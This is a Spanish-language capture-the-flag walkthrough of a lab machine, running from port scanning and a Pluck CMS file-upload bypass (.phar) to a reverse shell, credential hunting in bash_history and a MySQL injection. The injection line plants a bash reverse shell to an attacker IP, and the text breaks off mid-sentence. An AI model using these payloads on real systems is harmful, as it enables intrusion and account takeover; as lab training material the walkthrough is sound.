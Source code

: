 ### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.87 seconds
```
### ports: 22/ssh - 80/http

### empezamos enumerando el puerto 80
![[Pasted image 20231121122855.png]]
en este caso parece que no tenemos mucho
### Fuzzing con gobuster
![[Pasted image 20231121123528.png]]
### tenemos un directorio llamado app. en el que encontramos una carpeta llamada pluck
![[Pasted image 20231121123646.png]]
### nos lleva a lo que parece ser la pagina principal
![[Pasted image 20231121123850.png]]
### aquí podemos enumerar el framework en el que esta echo la pagina y también un usuario admin
### si entramos en admin nos dirige a una pagina donde podremos logearnos pero aun no tenemos credenciales. lo que si podemos conseguir es lo que parece ser la version del framework y este lo podemos usar para buscar exploit que nos ayuden a entrar en la pagina
![[Pasted image 20231121124556.png]]
### despues de una busqueda en internet hemos encontrado un script que no funciona pero leyendo el codigo hemos descubierto que la clave que utiliza para ingresar a la pagina es password
### enumerando todos las rutas de la pagina parece que tenemos un apartado que nos permite subir archivos
![[Pasted image 20231121134946.png]]
### intentaremos subir un archivo que contenga una revershell 
### despues de hacer un monton de pruebas parece que la pagina agrega .txt a cada archivo que subimos asi que intentamos baypassar esto probando muchas opciones y phar nos ha funcionado
![[Pasted image 20231121145707.png]]
### nos ponemos a la escucha y recibimos nuestra shell
![[Pasted image 20231121145905.png]]
### Despues de hacer tratamiento de tty vamos al directorio /home
![[Pasted image 20231121151554.png]]
### dentro del directorio /home tenemos tres usuarios 
```python
	Username: death
	
	username: lucien
	
	username morpheus
```

### en este caso primero vamos a intentar enumerar al usuario morpheus, donde podemos ver la flag pero no tenemos permisos. y tambien tenemos un archivo restore.py muy interesante

![[Pasted image 20231121152552.png]]
### si hacemos un cat al archivo restore.py no tenemos mucha informacion asi que iremos por otro usuario

![[Pasted image 20231121153245.png]]

### despues de una larga busqueda e intentando muchisimas cosas entre ellas pspy64 el cual no se puede ejecutar debido a un archivo en el sistema que lo impide hemos encontrado esto:
![[Pasted image 20231121162834.png]]
### en el directorio opt existe un archivo llamado test.py y haciendo un cat podemos ver que al parecer contiene la contraseña del usuario lucien 

![[Pasted image 20231121163324.png]]
### efectivamente el archivo test.py contenia las credenciales de lucien
### hacemos cat al archivo getDreams.py
![[Pasted image 20231121163711.png]]
### obtenemos información sobre una base de datos mysql. este archivo parese mostrarnos lo que esta alojado en la base de datos. esto es muy importante ya que podremos usarlo mas adelante
### vamos a intentar buscar el bash_history del usuario lucien para intentar recopilar mas informacion
![[Pasted image 20231121172038.png]]
### genial. optenemos informacion valiosa. al parecer lucien se ha conectado en el pasado a la base de datos usando las credenciales que quedaron almacenadas en el bash_history. vamos a aprovechar esto para conectarnos a la base de datos y ver que tipo de informacion podemos sacar...
![[Pasted image 20231121181702.png]]
### vamos a mirar en toda la base de datos
![[Pasted image 20231121212309.png]]
### nos aprovecharemos del archivo que mencionamos anteriormente el cual hace un llamado de todo lo que esta en la base de datos e intentaremos inyectar una shell a la base de datos para que cuando ejecutemos el archivo con suerte esto nos envie una shell
### vamos a inyectar codigo a la base de datos

```python
	INSERT into dreams (dreamer,dream) VALUE ("Gamuke","; bash -c 'bash -i >& /dev/tcp/10.8.203.6/9001 0>&1'");
```

![[Pasted image 20231121214156.png]]

### tenemos nuestro codigo malicioso inyectado en la base de datos asi que vamos a ejecutar el archvo.
![[Pasted image 20231121214610.png]]
### logramos tener conexion. dentro de este usuario hacemos cat al archivo getDreams.py
![[Pasted image 20231121215212.png]]
### hemos conseguido credenciales para el usuario death las cuales podriamos verificar si ingresamos via ssh
### nos falta enumerar el ultimo usuario
![[Pasted image 20231121215810.png]]
### vemos que dentro de la carpeta de morpheus existe un archivo llamado restore.py que al parecer hace un llamado de una libreria de p